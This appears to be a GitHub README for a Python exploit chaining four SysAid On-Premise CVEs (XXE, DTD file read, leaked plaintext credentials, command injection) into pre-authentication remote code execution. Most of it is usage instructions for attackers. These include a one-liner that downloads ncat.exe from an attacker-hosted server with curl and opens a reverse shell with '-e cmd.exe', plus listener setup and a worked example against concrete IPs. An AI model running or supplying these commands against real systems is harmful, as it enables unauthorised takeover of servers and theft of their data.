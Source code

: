 <p align="center">
  <img src="logo.png" width="250px" alt="SysAid Logo">
</p>

<h1 align="center">SysAid Pre-Auth RCE Chain Exploit</h1>

<p align="center">
  <strong>🔥  CVEs: [CVE-2025-2775, CVE-2025-2776, CVE-2025-2777, CVE-2025-2778] </strong><br>
  🧑‍💻 Author: <strong>0xgh057r3c0n</strong> | 🔬 Research: <strong>@SinSinology</strong> & <strong>@watchTowrcyber</strong><br>
  <a href="https://github.com/0xgh057r3c0n/SysAid-PreAuth-RCE-Chain/blob/main/LICENSE">
    <img src="https://img.shields.io/github/license/0xgh057r3c0n/SysAid-PreAuth-RCE-Chain?style=flat-square" alt="MIT License">
  </a>
</p>

---

## 🚨 Associated CVEs

| CVE ID         | Description                                                       |
|----------------|-------------------------------------------------------------------|
| **CVE-2025-2775** | XXE vulnerability in `/mdm/serverurl` endpoint                  |
| **CVE-2025-2776** | Arbitrary file read via malicious external DTD (XXE technique)  |
| **CVE-2025-2777** | Credentials stored in plaintext in `InitAccount.cmd`            |
| **CVE-2025-2778** | Authenticated command injection via `javaLocation` parameter    |

These are chained together to achieve **unauthenticated remote command execution**.

---

## 🧩 About

This is a Python-based exploit that targets **SysAid On-Premise** running on **Windows**. It chains multiple vulnerabilities to achieve **pre-authenticated blind RCE**.

---

## 🧰 Requirements

- Python 3.6+
- `requests` module
- Attacker host with HTTP server and Netcat (`ncat`)
- SysAid target running on Windows

Install dependencies:

```bash
pip install requests
````

---

## 🔗 Exploit Chain Overview

1. XXE payload via `/mdm/serverurl` → triggers DTD-based file read
2. Leak `InitAccount.cmd` → extract hardcoded credentials
3. Log in with leaked creds
4. Inject command via `javaLocation` param (blind RCE)

---

## 🖥️ Step-by-Step Usage

### 1️⃣ Download and Host `ncat.exe` (Windows Netcat)

* 📥 Download from official source:
  [https://nmap.org/dist/ncat-portable-5.59BETA1.zip](https://nmap.org/dist/ncat-portable-5.59BETA1.zip)

* Extract `ncat.exe`

* Host it using Python HTTP server:

```bash
cd /path/to/ncat/
python3 -m http.server 80
```

Accessible at:

```
http://<ATTACKER_IP>/ncat.exe
```

---

### 2️⃣ Start a Reverse Shell Listener

On your attacker machine:

```bash
ncat -lvnp 4444
```

---

### 3️⃣ Run the Exploit

#### 🔸 Basic RCE (blind)

```bash
python3 exploit.py -t http://<TARGET_IP>:8080 -l <ATTACKER_IP> -c whoami
```

> You won’t get output, but command runs silently.

---

#### 🔹 Reverse Shell (Windows)

```bash
python3 exploit.py -t http://<TARGET_IP>:8080 -l <ATTACKER_IP> -c "cmd.exe /c curl http://<ATTACKER_IP>/ncat.exe -o C:\Windows\Temp\ncat.exe & C:\Windows\Temp\ncat.exe <ATTACKER_IP> 4444 -e cmd.exe"
```

**Decoded:**

```cmd
cmd.exe /c curl http://192.168.1.20/ncat.exe -o C:\Windows\Temp\ncat.exe
C:\Windows\Temp\ncat.exe 192.168.1.20 4444 -e cmd.exe
```

---

## 📦 Example Workflow

```bash
# Host Netcat binary
python3 -m http.server 80

# Start listener
ncat -lvnp 4444

# Launch exploit
python3 exploit.py -t http://192.168.1.100:8080 -l 192.168.1.20 -c "cmd.exe /c curl http://192.168.1.20/ncat.exe -o C:\Windows\Temp\ncat.exe & C:\Windows\Temp\ncat.exe 192.168.1.20 4444 -e cmd.exe"
```

---

## 🧪 Tested On

* ✅ SysAid On-Prem (Windows Server)
* ✅ Python 3.8+
* ✅ ncat.exe from Nmap

---

## 👨‍🔬 Credits

* 🔬 Research: [@SinSinology](https://twitter.com/SinSinology) & [@watchTowrcyber](https://twitter.com/watchTowrcyber)
* 💻 Exploit: **0xgh057r3c0n**

---

## 📜 License

This project is licensed under the MIT License. See the full license here:
🔗 [MIT License on GitHub](https://github.com/0xgh057r3c0n/SysAid-PreAuth-RCE-Chain/blob/main/LICENSE)

